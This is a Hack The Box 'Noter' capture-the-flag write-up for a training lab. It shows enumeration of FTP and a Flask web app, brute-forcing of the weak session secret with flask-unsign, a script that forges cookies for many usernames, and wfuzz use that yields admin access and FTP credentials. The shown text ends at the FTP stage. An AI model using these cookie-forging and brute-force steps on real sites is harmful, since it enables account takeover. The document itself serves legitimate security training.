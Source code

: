 ## HTB Noter (Medium) - Writeup

Difficulty: Medium

In this box, I started by enumerating an FTP service and a Flask-based web app where I discovered a weakly signed session cookie.  
Using flask-unsign, I brute-forced the secret key and generated admin session tokens, revealing credentials through a privileged note.  
With those, I accessed the FTP server and downloaded application backups, one of which exposed an RCE vulnerability in a Node.js script (md-to-pdf).  
Finally, I leveraged a MySQL UDF exploit using a discovered root password to escalate to root and gain full control of the system.  
---

## Nmap 

#### The nmap scan revealed three open and ports:  

![obraz](https://github.com/user-attachments/assets/79d8e1d8-1044-487c-ad85-98cbea2b866c)

## Port 21 - FTP

I always start with ftp when doing ctf challenges.  

![obraz](https://github.com/user-attachments/assets/163c9a88-f1a1-466c-a34b-0c13e7b5ea4f)

I tried logging in with username "anonymous" and a blank password "", but it failed.  



## Port 5000 - Website  

Website looks like this and welcomes us with login page:  

![obraz](https://github.com/user-attachments/assets/086102ac-3ec6-4ba1-8e5c-ad7a75b357ef)

First I tried some default credentials like admin:admin, but they failed.  
Then I tried sqli authentication bypass, also failed.  

Let's just register an account:  

![obraz](https://github.com/user-attachments/assets/f346d0f3-aaea-46d8-8c91-3fa1c68e1d83)

We found that this website is running CKEditor for notes:  

![obraz](https://github.com/user-attachments/assets/130aaae1-d657-429d-a7ba-ca8dad7fe8e9)

Then I did directory busting:  
```
feroxbuster --url http://10.10.11.160:5000/ -x php -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
Nothing intresting.  

When we click on note we get /note/3, another idea was to look for IDOR vulnerability.  
I tried /note/1 and a few other ones but they also didn't work.  

Next thing that I checked was response headers with curl:  

![obraz](https://github.com/user-attachments/assets/5c6c3fa8-df43-4696-a292-918c14e1b3df)

That is an intresting finding.  
At first glance it looks like JWT token, unfortunately we wasn't able to decode it.  

Turns out that it is a Flask cookie.  
There is a tool called flask-unsign that can be used to decode flask cookies.  
```
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiZWVlZSJ9.aF_apQ.zdGYMEDn5AaY6SsoJSeW4KFz2lc'
```

![obraz](https://github.com/user-attachments/assets/5b755eb3-7512-4d49-845d-f788b87b5617)

Flask cookies contain a secret that can be brute-forced if it's weak enough:  
```
flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiZWVlZSJ9.aF_apQ.zdGYMEDn5AaY6SsoJSeW4KFz2lc' -w /usr/share/wordlists/rockyou.txt --no-literal-eval
```
![obraz](https://github.com/user-attachments/assets/6a4dc8e5-c3dd-4578-8520-6c5ea1cc4d7d)


## Crafting a cookie  

With the secret we can craft any cookie we want, let's hope there is an admin account:  
```
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret123'
```
Now I'll replace the cookie with newly created one in devtools.  
Unfortunately it didn't work.  

There is other option that we can try.  
If we create a list of many cookies everyone with different username.  
We then should be able to brute-force website and get different response when we submit existing cookie.  

I created simple script that will generate a list of cookies for us:  
```python
import subprocess

wordlist_path = '/usr/share/wordlists/seclists/Usernames/Names/names.txt'
secret_key = 'secret123'

with open(wordlist_path, 'r') as file:
    for user in file:
        user = user.strip()
        cookie_data = f"{{'logged_in': True, 'username': '{user}'}}"
        cmd = [
            'flask-unsign',
            '--sign',
            '--cookie', cookie_data,
            '--secret', secret_key
        ]
        subprocess.run(cmd)
```

Now we can run it with:  
```
python3 generate.py > list2.txt
```
It can take up to 5-10 mins.  
Now we want to fuzz an existing cookie:  
```
wfuzz -w list2.txt -u http://10.10.11.160:5000/dashboard -H "Cookie: session=FUZZ" --hc 302
```

![obraz](https://github.com/user-attachments/assets/042091fc-54f9-4650-b55e-436de8dc7461)


It worked, in the syntax we filtered out 302 code and waited for 200.  
Let's open devtools and replace cookie with the one that wfuzz found.  
After we refresh the page we get admin access as user "blue":  

![obraz](https://github.com/user-attachments/assets/49290dd6-5302-41b5-9943-819c4c3b50b3)

I looked through the dashboard and found note with credentials:  

![obraz](https://github.com/user-attachments/assets/fb7ac166-d7a5-4904-ab93-3c20a915a71e)

Let's write them down:  
+  blue:blue@Noter!


## Back to FTP

Those credentials fail for ssh but work for ftp.  

![obraz](https://github.com/user-attachments/assets/7ebc363b-5311-467f-952a-5eff1120cc61)

We transfered policy.pdf to kali, let's take a look at it.  


























































































